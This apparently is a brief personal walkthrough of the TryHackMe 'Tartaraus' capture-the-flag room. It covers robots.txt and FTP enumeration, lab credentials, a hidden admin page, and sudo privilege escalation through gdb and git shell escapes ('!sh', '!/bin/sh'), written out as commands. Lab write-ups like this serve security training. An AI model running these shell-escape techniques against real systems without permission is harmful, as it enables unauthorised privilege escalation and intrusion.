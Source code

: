 https://tryhackme.com/room/tartaraus

`export IP=10.10.182.64`

## robots.txt
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```

FTP has hidden directories, reveal using `ls -la`

`username=enox&password=P@ssword1234`

http://10.10.116.86/sUp3r-s3cr3t/home.php

## linpeash
Found var/www/gdb
`sudo -u thirtytwo gdb -nx -ex '!sh' -ex quit`

## note in thirtytwo's home folder
```
Hey 32, the other day you were unable to clone my github repository.
Now you can use git. Took a while to fix it but now its good :)
```

Found /usr/bin/git runable by d4rckh
`sudo -u d4rckh git -p help config
!/bin/sh`

